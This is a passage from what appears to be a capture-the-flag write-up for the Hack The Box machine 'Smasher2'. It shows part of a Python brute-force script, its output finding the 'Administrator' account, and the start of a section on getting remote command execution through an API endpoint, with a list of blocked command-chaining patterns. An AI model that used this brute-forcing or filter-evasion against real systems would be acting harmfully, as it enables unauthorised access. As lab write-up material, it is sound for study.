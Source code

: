 ```python
                print("Skipping... %s" % passwords[i])
                break
    if (not "Cannot authenticate with data" in r.text) and (bad < 5):
        print("Potential password! %s" % passwords[i])
        with open("out.txt", "a") as f:
            f.write("%s\n" % passwords[i])
    i = i + 1
    time.sleep(0.05)
```

Eventually, I found that the username `Administrator` is the right one (case-sensitive):

```
# python brute.py 
Testing username: admin
Testing username: administrator
Testing username: operator
Testing username: sql
Testing username: demo
Testing username: pos
Testing username: user
Testing username: default
Testing username: defaultaccount
Testing username: account
Testing username: accounting
Testing username: guest
Testing username: guest
Testing username: adm
Testing username: office
Testing username: manager
Testing username: Admin
Testing username: Administrator
Potential password! Administrator
```

I can now log in and get an API key:

![](/assets/images/htb-writeup-smasher2/apikey.png)

## WAF evasion then RCE

Using the `/api/<key>/job` API, I can execute some commands like `whoami`:

![](/assets/images/htb-writeup-smasher2/rce1.png)

However there is a WAF configured because the following commands are blocked and the server returns a 403 Forbidden:

- most UNIX commands (ls, cat, etc.)
- multiple commands separated with a semi colon (ie. whoami;whoami)
- multiple commands separated with an ampersand (ie. whoami&&whoami)
- multiple commands separated by spaces
- and a bunch of others
